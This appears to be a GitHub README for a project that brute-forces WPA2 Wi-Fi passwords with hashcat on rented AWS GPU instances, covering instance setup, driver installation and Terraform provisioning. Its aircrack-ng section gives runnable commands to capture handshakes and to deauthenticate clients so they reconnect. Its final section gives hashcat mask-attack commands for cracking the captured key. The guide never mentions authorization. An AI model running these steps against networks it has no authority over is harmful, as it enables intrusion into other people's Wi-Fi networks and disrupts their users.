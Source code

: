 # AWS & HashCat

A AWS &amp; Hashcat environment for WPA2 Brute force attack

## Introduction

One big question when it comes to breaking passwords by brute force is: How long will it take?

While the password  **112233** would only take 1 second to be discovered through trial and error, consisting of several combinations, a password like **fDb#E!*##12c** would take 4 centuries, according to [Kaspersky Calculator](https://password.kaspersky.com/?/utm_medium=rdr&utm_source=redirector&utm_campaign=old_url). The problem is that it is not enough to have a "Gamer" computer, it will not be enough if the password is a bit more complex, we often have even modest computers.

An alternative is to use **AWS** to accomplish this task, there are very powerful **EC2** instances in which we can enjoy paying for hours of use.

We can use instances of type P3 for example, which contains the following configuration:

Name | GPUs | GPU Mem | vCPU | Mem (GiB) | Cost/hour 
-----|------|---------|------|-----------|----------
p3.2xlarge | 1 | 16 | 4 | 61 | $ 3.06 
p3.8xlarge | 8 | 64 | 32 | 244 | $ 12.24
p3.16xlarge | 8 | 128 | 64 | 488 | $ 24.48
p3dn.24xlarge | 8 | 256 | 96 | 768 | $ 31.218
p4d.24xlarge | 8 | not specified | 96 | 1152 | $ 32.77

You can be able to save up to 70% by using spot instance.

## Prerequisites

To perform this process you must have the following requirements:

* Knowledge of Linux
* Account with AWS
* Be willing to spend

## Configuration

With the pre requisites fulfilled hands down.

### Uploading Instance

1. Select the AMI Debian 10
1. Choose the type, in this example I'll use **p3.2xlarge**
1. Configure the details, storage, security group, key pair, etc.
1. After creating the instance make the connection via SSH

At this point we will do the initial configuration.

### Configuration

Update and upgrade apt

```
sudo apt update && sudo apt upgrade -y
```

Install the packages

```
sudo apt install -y --ignore-missing build-essential tmux htop vim jq unzip lsof git p7zip-full
```

Set the correct timezone

```
ln -sf /usr/share/zoneinfo/America/Sao_Paulo /etc/localtime
```

Create the file **blacklist-nouveau.conf**

```
sudo vim /etc/modprobe.d/blacklist-nouveau.conf
```

Enter the following lines

```
nouveau blacklist
blacklist lbm-nouveau
options nouveau modeset = 0
alias nouveau off
alias lbm-nouveau off
```

Create the file **nouveau-kms.conf**

```
sudo vim /etc/modprobe.d/nouveau-kms.conf
```
Enter the following line

```
options nouveau modeset = 0
```

And then upgrade initramfs

```
sudo update-initramfs -u
```

At this point reboot your server to continue.

Install linux headers
```
sudo apt install -y linux-headers-`uname -r`
```

Download NVIDIA and install

```
cd /tmp/
wget https://us.download.nvidia.com/tesla/470.57.02/NVIDIA-Linux-x86_64-470.57.02.run
sudo /bin/bash NVIDIA-Linux-x86_64-470.57.02.run --ui=none --no-questions --silent -X

```

Download HashCat and install

```
cd /tmp/
wget https://hashcat.net/files/hashcat-6.2.4.7z >/dev/null 2>&1
7za x hashcat-6.2.4.7z >/dev/null 2>&1
mv hashcat-6.2.4 /home/admin/
ln -s /home/admin/hashcat-6.2.4/hashcat.bin /usr/local/bin/hashcat
```

At this point you can put your **.hc22000** files on the server, if you have captured the handshake through **Aircrack-ng** you can convert the file **.cap** to **.hc22000** without much trouble, a very simple alternative is to use a tool called [cap2hashcat](https://hashcat.net/cap2hashcat/) from HashCat itself.

Now just launch the command and wait for the password to be discovered, for more information on usage consult HashCat [Documentation](https://hashcat.net/wiki/).

## Using Aircrack-ng to get handshake

Install aircrack-ng
```
sudo apt install aircrack-ng
```

Put the interface into monitoring mode
```
sudo airmon-ng start wlan0
```

If the interface is busy
```
sudo airmon-ng check kill
```

check candidates
```
sudo airodump-ng wlan0mon
```

Once chosen stop it and start capture
```
sudo airodump-ng -c CHANNEL --bssid MAC -w /tmp/wificapfile wlan0mon
```

To make faster the capture, you can force the reauthentication
```
sudo aireplay-ng -0 2 -a MAC -c MAC wlan0mon
```

Little explanation
```
-0 2: number of requests
-a: access point MAC address
-c: client MAC address
```

You will see in the top right corner when the handshake is captured, then stop the capture and convert the file using **cap2hashcat** tool.

## Terraform project

You must have the following packages
```
aws-cli
terraform
```

Configure the aws credentials
```
aws configure
```

Init Terraform

```
terraform init
```

Apply
```
terraform apply
```

At this point all the environment and spot instance machine will be created, and will be automatically launched the **initial-script.sh** located in scripts folder, once finished reboot the server and run **hashcat.sh** to install nvidia drivers and hashcat.

## How to use Hashcat

There is some example bellow, you can consult the official documentation as well.

Send the file to the server
```
scp -i aws-hcat-prod.pem wificapfile.hc22000 admin@<IP ADDRESS>:/home/admin/
```

Hashcat brute force examples
```
hashcat -m 22000 wificapfile.hc22000 -a 3 ?d?d?d?d?d?d?d?d
hashcat wificapfile.hc22000 -m 22000 -a 3 ?H?H?H?HAA10
```
